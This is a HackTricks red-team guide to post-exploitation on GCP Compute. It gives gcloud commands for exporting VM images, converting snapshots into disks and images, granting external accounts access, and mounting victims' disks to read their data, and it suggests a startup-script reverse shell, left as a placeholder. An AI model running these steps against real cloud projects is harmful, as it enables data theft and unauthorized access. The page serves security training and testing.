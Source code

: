 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

For more information about Compute and VPC (Networking) check:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Export & Inspect Images locally

This would allow an attacker to **access the data contained inside already existing images** or **create new images of running VMs** and access their data without having access to the running VM.

It's possible to export a VM image to a bucket and then download it and mount it locally with the command:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Fore performing this action the attacker might need privileges over the storage bucket and for sure **privileges over cloudbuild** as it's the **service** which is going to be asked to perform the export\
Moreover, for this to work the codebuild SA and the compute SA needs privileged permissions.\
The cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` needs:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

And the SA `<project-id>-compute@developer.gserviceaccount.com` needs:

* oles/compute.storageAdmin
* roles/storage.objectAdmin

### Export & Inspect Snapshots & Disks locally

It's not possible to directly export snapshots and disks, but it's possible to **transform a snapshot in a disk, a disk in an image** and following the **previous section**, export that image to inspect it locally

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspect an Image creating a VM

With the goal of accessing the **data stored in an image** or inside a **running VM** from where an attacker **has created an image,** it possible to grant an external account access over the image:

```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
  --member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
  --role='roles/compute.imageUser'
```

and then create a new VM from it:

```bash
gcloud compute instances create [INSTANCE_NAME] \
  --project=[TARGET_PROJECT_ID] \
  --zone=[ZONE] \
  --image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```

If you could not give your external account access over image, you could launch a VM using that image in the victims project and **make the metadata execute a reverse shell** to access the image adding the param:

```bash
    --metadata startup-script='#! /bin/bash
        echo "hello"; <reverse shell>'
```

### Inspect a Snapshot/Disk attaching it to a VM

With the goal of accessing the **data stored in a disk or a snapshot, you could transform the snapshot into a disk, a disk into an image and follow th preivous steps.**

Or you could **grant an external account access** over the disk (if the starting point is a snapshot give access over the snapshot or create a disk from it):

```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
  --member='user:[USER_EMAIL]' \
  --role='roles/compute.storageAdmin'
```

**Attach the disk** to an instance:

```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
  --disk [DISK_NAME] \
  --zone [ZONE]
```

Mount the disk inside the VM:

1.  **SSH into the VM**:

    ```sh
    gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
    ```
2. **Identify the Disk**: Once inside the VM, identify the new disk by listing the disk devices. Typically, you can find it as `/dev/sdb`, `/dev/sdc`, etc.
3. **Format and Mount the Disk** (if it's a new or raw disk):
   *   Create a mount point:

       ```sh
       sudo mkdir -p /mnt/disks/[MOUNT_DIR]
       ```
   *   Mount the disk:

       ```sh
       sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
       ```

If you **cannot give access to a external project** to the snapshot or disk, you might need to p**erform these actions inside an instance in the same project as the snapshot/disk**.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
